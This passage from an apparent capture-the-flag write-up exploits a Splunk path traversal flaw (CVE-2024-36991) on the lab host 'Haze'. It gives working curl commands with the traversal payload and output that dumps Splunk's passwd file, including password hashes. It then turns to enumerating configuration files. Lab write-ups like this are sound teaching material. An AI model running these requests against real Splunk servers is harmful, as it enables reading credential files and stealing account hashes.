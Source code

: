 There were a fair number of news stories about this vulnerability in July 2024:

![image-20250623211506235](/img/image-20250623211506235.png)

#### POC

[This post](https://www.vicarius.io/vsociety/posts/exploiting-path-traversal-in-splunk-cve-2024-36991) from vsociety gives a short breakdown of a POC. The critical point is to use a path such as `/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd`. I’ve looked at simple `os.path.join` vulnerabilities before, but this is more complex. The server must be breaking apart the URL path and parsing it one section at a time. Regardless, I’ll give it a try:

```

oxdf@hacky$ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../etc/passwd'
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152

```

It works!

This path may look a bit confusing for a Windows host. The Splunk configuration files are stored in the `etc` directory inside the Splunk installation directory, on Windows typically `C:\Program Files\Splunk\etc`. I can test this by adding additional `C:../` to get up to the root of `C:` and then back into the `Splunk` directory:

```

oxdf@hacky$ curl --path-as-is 'http://haze.htb:8000/en-US/modules/messaging/C:../C:../C:../C:../C:../C:../C:../Program%20Files/Splunk/etc/passwd'
:admin:$6$Ak3m7.aHgb/NOQez$O7C8Ck2lg5RaXJs9FrwPr7xbJBJxMCpqIx3TG30Pvl7JSvv0pn3vtYnt8qF4WhL7hBZygwemqn7PBj5dLBm0D1::Administrator:admin:changeme@example.com:::20152
:edward:$6$3LQHFzfmlpMgxY57$Sk32K6eknpAtcT23h6igJRuM1eCe7WAfygm103cQ22/Niwp1pTCKzc0Ok1qhV25UsoUN4t7HYfoGDb4ZCv8pw1::Edward@haze.htb:user:Edward@haze.htb:::20152
:mark:$6$j4QsAJiV8mLg/bhA$Oa/l2cgCXF8Ux7xIaDe3dMW6.Qfobo0PtztrVMHZgdGa1j8423jUvMqYuqjZa/LPd.xryUwe699/8SgNC6v2H/:::user:Mark@haze.htb:::20152
:paul:$6$Y5ds8NjDLd7SzOTW$Zg/WOJxk38KtI.ci9RFl87hhWSawfpT6X.woxTvB4rduL4rDKkE.psK7eXm6TgriABAhqdCPI4P0hcB8xz0cd1:::user:paul@haze.htb:::20152

```

It works!

### Filesystem Enumeration

The `passwd` file has hashes for accounts on the Splunk web login. There are other interesting files I might want to check out with the Splunk configuration. [This page](https://help.splunk.com/en/splunk-enterprise/administer/admin-manual/9.2/configuration-file-reference/9.2.1-configuration-file-reference) in the Splunk docs shows a ton of `conf` files with links to a page on each. Many of these files have the default versions in `etc/system/default`, and user updates are made in `etc/system/local`. Most of these files don’t exist in `etc/system/local` on Haze, which makes them less interesting.
